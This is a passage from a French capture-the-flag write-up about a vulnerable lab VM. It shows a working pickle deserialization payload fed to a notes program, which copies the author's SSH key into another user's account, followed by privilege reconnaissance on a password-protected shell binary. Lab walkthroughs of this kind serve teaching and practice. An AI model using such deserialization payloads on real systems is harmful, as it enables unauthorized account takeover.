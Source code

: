 ```plain
|    + . S        |
|   . +   .       |
|  E +   .        |
|   . =.  .       |
|    oo=o.        |
+-----------------+
bash-4.2$ cp /home/amanpour/.ssh/id_rsa.pub /tmp/authorized_keys 
bash-4.2$ echo -e "cos\nsystem\n(S'cp /tmp/authorized_keys /home/curtiz/.ssh'\ntR." > key_trap
bash-4.2$ /opt/notes

-------------------------------
 Welcome to Juan's to-do list! 
   type help for more info     
-------------------------------
load ../../tmp/key_trap
exit
bash-4.2$ ssh curtiz@localhost
Enter passphrase for key '/home/amanpour/.ssh/id_rsa': 
Linux xerxes 3.2.0-4-486 #1 Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Dec 20 06:17:11 2013 from 192.168.56.1
curtiz@xerxes:~$ id
uid=1002(curtiz) gid=1002(curtiz) groups=1002(curtiz),1003(notes)
```

Bingo ! On a grimpé d'un cran dans notre exploration :)  

La Liberté guidant le peuple
-----------------------------

Dans le home de *curtiz* on retrouve immédiatement un fichier *id\_rsa* qui correspond de toute évidence à la clé privée de *Marie* comme indiqué précédemment dans les notes que l'on a trouvé.  

Qui est *Marie* ? Un petit grep pour nous renseigner :

```plain
a.curtiz@xerxes:~$ grep -i marie /etc/passwd
delacroix:x:1000:1000:Marie Delacroix,,,:/home/delacroix:/bin/delacroix
```

Cette utilisatrice dispose d'un shell particulier : */bin/delacroix*  

Si on lance le binaire on a une demande de mot de passe. C'est le niveau de sécurité supérieure dont il était mention.  

Le binaire est lisible pour tous. *Ltrace* n'est pas installé (ce qui aurait pu faciliter l'analyse) mais de toute façon quand on lance un strings dessus on obtient :

```plain
%02x
3d054afb77714ca938d8bca104fcb141
/bin/bash
Password:
```
